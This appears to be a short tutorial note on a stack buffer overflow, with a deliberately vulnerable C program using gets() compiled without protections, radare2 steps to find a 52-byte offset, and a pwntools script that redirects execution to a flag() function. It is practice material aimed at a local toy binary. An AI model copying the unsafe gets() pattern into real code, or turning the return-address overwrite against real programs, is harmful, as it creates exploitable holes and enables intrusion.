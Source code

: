 #Doc

- https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique

## Programme vulnérable

```c
// gcc source.c -o vuln -no-pie -fno-stack-protector -z execstack -m32
#include <stdio.h>

void unsafe() {
    char buffer[40];
    
    puts("Overflow me");
    gets(buffer);
}

void main() {
    unsafe();
}

void flag() {
    puts("Exploited!!!!!");
}
```

## Trouver le padding = taille du buffer pour segfault

```bash
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
52
```

## Exploitation

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```

![](./pwn.png)
